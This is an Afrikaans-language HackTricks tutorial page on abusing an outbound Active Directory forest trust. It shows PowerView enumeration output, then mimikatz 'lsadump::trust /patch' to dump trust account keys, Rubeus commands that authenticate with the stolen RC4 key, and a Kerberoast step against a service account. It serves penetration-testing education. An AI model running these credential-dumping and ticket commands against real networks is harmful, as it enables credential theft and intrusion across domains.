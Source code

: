 # Eksterne Woud-domein - Eenrigting (Uitgaand)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Opleiding AWS Rooi Span Ekspert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Opleiding GCP Rooi Span Ekspert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsieplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

In hierdie scenario **jou domein** is **vertrou** op **sekere voorregte** aan 'n hoof van **verskillende domeine**.

## Opname

### Uitgaande Vertroue
```powershell
# Notice Outbound trust
Get-DomainTrust
SourceName      : root.local
TargetName      : ext.local
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : FOREST_TRANSITIVE
TrustDirection  : Outbound
WhenCreated     : 2/19/2021 10:15:24 PM
WhenChanged     : 2/19/2021 10:15:24 PM

# Lets find the current domain group giving permissions to the external domain
Get-DomainForeignGroupMember
GroupDomain             : root.local
GroupName               : External Users
GroupDistinguishedName  : CN=External Users,CN=Users,DC=DOMAIN,DC=LOCAL
MemberDomain            : root.io
MemberName              : S-1-5-21-1028541967-2937615241-1935644758-1115
MemberDistinguishedName : CN=S-1-5-21-1028541967-2937615241-1935644758-1115,CN=ForeignSecurityPrincipals,DC=DOMAIN,DC=LOCAL
## Note how the members aren't from the current domain (ConvertFrom-SID won't work)
```
## Trust Account Attack

'n Sekuriteitskwesbaarheid bestaan wanneer 'n vertrouensverhouding tussen twee domeine gevestig word, hier geïdentifiseer as domein **A** en domein **B**, waar domein **B** sy vertroue na domein **A** uitbrei. In hierdie opstelling word 'n spesiale rekening in domein **A** geskep vir domein **B**, wat 'n belangrike rol speel in die verifikasieproses tussen die twee domeine. Hierdie rekening, geassosieer met domein **B**, word gebruik om kaartjies te enkripteer vir toegang tot dienste oor die domeine.

Die kritieke aspek om hier te verstaan, is dat die wagwoord en hash van hierdie spesiale rekening uit 'n Domeinbeheerder in domein **A** onttrek kan word met behulp van 'n opdraglyn hulpmiddel. Die opdrag om hierdie aksie uit te voer is:
```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc.my.domain.local
```
Hierdie ekstraksie is moontlik omdat die rekening, wat met 'n **$** na sy naam geïdentifiseer word, aktief is en behoort tot die "Domain Users" groep van domein **A**, wat die regte wat met hierdie groep geassosieer word, erf. Dit stel individue in staat om teen domein **A** te autentiseer met die kredensiale van hierdie rekening.

**Waarskuwing:** Dit is haalbaar om hierdie situasie te benut om 'n voet aan die grond in domein **A** te verkry as 'n gebruiker, alhoewel met beperkte regte. Hierdie toegang is egter voldoende om enumerasie op domein **A** uit te voer.

In 'n scenario waar `ext.local` die vertrouende domein is en `root.local` die vertroude domein is, sal 'n gebruikersrekening met die naam `EXT$` binne `root.local` geskep word. Deur spesifieke gereedskap is dit moontlik om die Kerberos vertrouingssleutels te dump, wat die kredensiale van `EXT$` in `root.local` onthul. Die opdrag om dit te bereik is:
```bash
lsadump::trust /patch
```
Hierdie kan gebruik word om die onttrokken RC4-sleutel te gebruik om as `root.local\EXT$` binne `root.local` te autentiseer met 'n ander hulpmiddelopdrag:
```bash
.\Rubeus.exe asktgt /user:EXT$ /domain:root.local /rc4:<RC4> /dc:dc.root.local /ptt
```
Hierdie verifikasiefase maak die moontlikheid oop om dienste binne `root.local` te tel en selfs te benut, soos om 'n Kerberoast-aanval uit te voer om diensrekening geloofsbriewe te onttrek met:
```bash
.\Rubeus.exe kerberoast /user:svc_sql /domain:root.local /dc:dc.root.local
```
### Versameling van duidelike teks vertrouingswagwoord

In die vorige vloei is die vertrouingshash gebruik in plaas van die **duidelike teks wagwoord** (wat ook **deur mimikatz gedump** is).

Die duidelike teks wagwoord kan verkry word deur die \[ CLEAR ] uitvoer van mimikatz van hexadesimaal te omskakel en null bytes ‘\x00’ te verwyder:

![](<../../.gitbook/assets/image (938).png>)

Soms, wanneer 'n vertrouingsverhouding geskep word, moet 'n wagwoord deur die gebruiker vir die vertroue getik word. In hierdie demonstrasie is die sleutel die oorspronklike vertrouingswagwoord en dus menslik leesbaar. Soos die sleutel siklusse (30 dae), sal die duidelike teks nie menslik leesbaar wees nie, maar tegnies steeds bruikbaar.

Die duidelike teks wagwoord kan gebruik word om gereelde outentisering as die vertrouingsrekening uit te voer, 'n alternatief om 'n TGT aan te vra met die Kerberos geheime sleutel van die vertrouingsrekening. Hier, om root.local van ext.local te vra vir lede van Domain Admins:

![](<../../.gitbook/assets/image (792).png>)

## Verwysings

* [https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
